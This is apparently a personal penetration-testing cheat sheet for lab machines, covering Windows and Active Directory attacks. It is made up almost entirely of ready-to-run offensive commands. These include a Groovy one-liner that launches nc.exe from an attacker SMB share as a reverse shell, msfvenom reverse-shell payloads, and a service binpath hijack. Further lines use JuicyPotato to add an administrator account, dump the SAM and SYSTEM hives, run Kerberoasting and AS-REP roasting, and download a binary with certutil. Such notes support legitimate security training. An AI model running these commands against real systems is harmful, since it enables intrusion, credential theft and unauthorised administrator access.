 # OWASP Top 10

## SSL Certificates

```shell
# Inspect SSL certificates
openssl s_client -connect 10.10.10.250:443
````

## Command Injection

### Ask Jeeves

```powershell
# Shared resource
println "\\\\10.10.10.10\\smbFolder\\nc.exe -e 10.10.10.10 443".execute().text
```
------------------------------------------------------------------------------------------------------
# Windows Section

## Active Directory Enumeration

### SMBClient

```shell
smbclient -L 10.10.10.250 -N
```

### SMBMap

```shell
# Unauthenticated
smbmap -H 10.10.10.250 -u 'null'

# Authenticated to a share 
smbmap -H 10.10.10.250 -u
```

### RPCClient

```powershell
# Unauthenticated (Null Session)
rpcclient -U "" 10.10.10.250

# Authenticated
rpcclient -U "username%password" 10.10.10.250
enumdomusers
enumdomgroups
querygroupmem <rid>
queryuser <rid>
```

# Kerberos

## Enumerating valid users

#### [kerbrute](https://github.com/ropnop/kerbrute)

Find **valid** domain controller users

```powershell
kerbrute userenum --dc 10.10.10.250 -d domain.local users.list
```

Combinating with [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)

Find **ASREPRoast** users. Requires with **UF_DONT_REQUIRE_PREAUTH** attribute.

```powershell
GetNPUsers.py domain.local/ --no-pass -usersfile valid_users.list
```

Find **Kerberoasting** users. Requires users with **ServicePrincipalName** attribute.

Combinating with [GetUsersSPNs.py](https://github.com/fortra/impacket/blob/master/examples/GetUserSPNs.py)

```powershell
GetUsersSPNs.py 'domain.local/jan:password'
```

# Windows Privilege Escalation Techniques

## Windows Internal Enumeration

```powershell
# System Enumeration
systeminfo
windows version registry key print

# Network Enumeration
netstat -nat

# User Enumeration
whoami /priv, whoami /all
net user <user>

# Services Enumeration
services
```

## Abusing groups

### Server Operators
Create/Modify Services

```powershell
# MSFVenom Reverse Shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f exe > shell.exe

# Modiying binary
sc.exe config VMTools binpath="C:\Users\Janrdz\Desktop\shell.exe"
```
## Abusing Privileges

### SeImpersonatePrivilege
#### [JuicyPotato](https://github.com/k4sth4/Juicy-Potato)

```powershell
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net user jan jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c net localgroup Administrators jan /add" -l 1337
JP.exe -t * -p C:\Windows\System32\cmd.exe -a "/c reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f" -l 1337
```

### AlwaysInstallElevated

Create a payload.msi with MSFVenom (Reverse Shell)

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 --platform windows -a x64 -f msi -o reverse.msi
```

### SeBackupPrivilege

Create a copy of SYSTEM and SAM dump with [secretsdump.py](https://github.com/fin3ss3g0d/secretsdump.py)

```powershell
PS C:\Temp> reg save HKLM\system system
PS C:\Temp> reg save HKLM\sam sam
```

------------------------------------------------------------------------------------------------------

# File Transfers

## Windows

```powershell
certutil.exe -f -urlcache -split http://10.10.10.10/winPease.exe winPease.exe
```

## Impackets

```command
impacket-smbserver smbFolder $(pwd) -smb2support
```

------------------------------------------------------------------------------------------------------

# Extra

## Alternate Data Streams (Windows)

ADS (Alternate Data Stream): is the ability to branch data into existing files without changing or altering its functionality, size or display to file browsing utilities.

```command
dir /r /s
more < ads.txt
more < ads.txt:file.txt
```

## Change access control lists on files and folders

```powershell
icacls file.txt
```

